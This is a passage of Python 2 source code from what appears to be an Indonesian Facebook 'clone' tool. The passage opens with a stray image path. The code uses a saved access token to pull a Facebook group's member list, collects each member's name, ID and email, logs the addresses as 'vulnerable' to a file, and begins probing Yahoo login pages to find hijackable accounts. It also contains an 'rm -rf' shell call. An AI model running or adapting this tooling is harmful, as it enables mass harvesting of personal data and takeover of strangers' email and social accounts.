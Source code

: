                     print("\033[1;96m[➹] \033[1;97mEmail\033[1;91m: \033[1;92m"+mail)
                    print("\033[1;96m[➹] \033[1;97mNama \033[1;91m: \033[1;92m"+nama)
                    save = open('out/TemanMailVuln.txt','a')
                    save.write("Nama : "+ nama + '\n' "ID        : "+ id + '\n' "Email  : "+ mail + '\n\n')
                    save.close()
                    berhasil.append(mail)
        except KeyError:
            pass
    print 42*"\033[1;96m="
    print '\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;92mSelesai \033[1;97m....'
    print"\033[1;96m[+] \033[1;92mTotal \033[1;91m: \033[1;97m"+str(len(berhasil))
    print"\033[1;96m[+] \033[1;92mFile tersimpan \033[1;91m:\033[1;97m out/TemanMailVuln.txt"
    raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]")
    menu()
    
def clone_dari_member_group():
    global toket
    os.system('clear')
    try:
        toket=open('login.txt','r').read()
    except IOError:
        print"\033[1;96m[!] \x1b[1;91mToken invalid"
        os.system('rm -rf login.txt')
        time.sleep(1)
        keluar()
    try:
        os.mkdir('out')
    except OSError:
        pass
    os.system('clear')
    print logo
    mpsh = []
    jml = 0
    print 42*"\033[1;96m="
    id=raw_input('\033[1;96m[+] \033[1;93mMasukan ID group \033[1;91m:\033[1;97m ')
    try:
        r=requests.get('https://graph.facebook.com/group/?id='+id+'&access_token='+toket)
        asw=json.loads(r.text)
        print"\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;93mNama group \033[1;91m:\033[1;97m "+asw['name']
    except KeyError:
        print"\033[1;96m[!] \x1b[1;91mGroup tidak ditemukan"
        raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]")
        menu()
    jalan('\033[1;96m[✺] \033[1;93mMengambil email \033[1;97m...')
    teman = requests.get('https://graph.facebook.com/'+id+'/members?fields=name,id&limit=999999999&access_token='+toket)
    kimak = json.loads(teman.text)
    jalan('\033[1;96m[✺] \033[1;93mStart \033[1;97m...')
    print('\x1b[1;96m[!] \x1b[1;93mStop CTRL+z')
    print 42*"\033[1;96m="
    for w in kimak['data']:
        jml +=1
        mpsh.append(jml)
        id = w['id']
        nama = w['name']
        links = requests.get("https://graph.facebook.com/"+id+"?access_token="+toket)
        z = json.loads(links.text)
        try:
            mail = z['email']
            yahoo = re.compile(r'@.*')
            otw = yahoo.search(mail).group()
            if 'yahoo.com' in otw:
                br.open("https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com")
